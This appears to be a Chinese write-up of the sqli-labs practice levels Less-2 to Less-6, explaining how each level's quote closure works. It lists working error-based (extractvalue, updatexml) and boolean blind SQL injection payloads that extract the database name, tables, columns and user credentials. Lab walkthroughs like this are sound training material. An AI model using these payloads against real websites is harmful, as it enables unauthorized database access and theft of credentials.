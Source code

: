**因为程序在展示数据的时候通常只会取结果集的第一行数据，mysql_fetch_array只被调用了一次，而mysql_fetch_array从结果集中取得一行作为关联数组或数字数组或二者兼有，具体看第二个参数是什么。所以这里无论怎么折腾最后只会出来第一行的查询结果。只要让第一行查询的结果是空集，即union左边的select子句查询结果为空，那么union右边的查询结果自然就成为了第一行，打印在网页上了。**

### Less-2

单双引号都报错。看提示语句，判断时数字型注入。payload跟第一关的一样，不过不用引号闭合。

### Less-3

单引号报错，根据提示，需要')来闭合。其余payload和第一关一样。

### Less-4

单引号没有提示，但是双引号报错了，根据报错信息，是"）来闭合，其余payload和第一关一样。

### Less-5

单引号报错，但是俩个引号闭合后，查询结果没有回显。闭合还是单引号。有报错的回显信息。这里采用报错注入。或者布尔盲注。

```
extractvalue函数
and extractvalue(1,concat(0x7e,(database()),0x7e))--+确定当前数据库

and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e))--+爆表

and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e))--+爆列名
and extractvalue(1,concat(0x7e,(select group_concat(username,password) from users),0x7e))--+爆数据
```

```
updatexml函数
and updatexml(1,concat(0x7e,database(),0x7e),1)--+ 确定数据库

and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1)--+爆表

and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1)--+ 爆列名

and updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1)--+ 爆数据
```

```
and left(database(),1)='s' --+
and ascii(database())=115 --+ 第一位是不是s s的ascii码是115
and ascii(substr(database(),1,1))=115
...
```

### Less-6

和上一关一样，查询结果没有回显，但是这里的闭合方式是"。
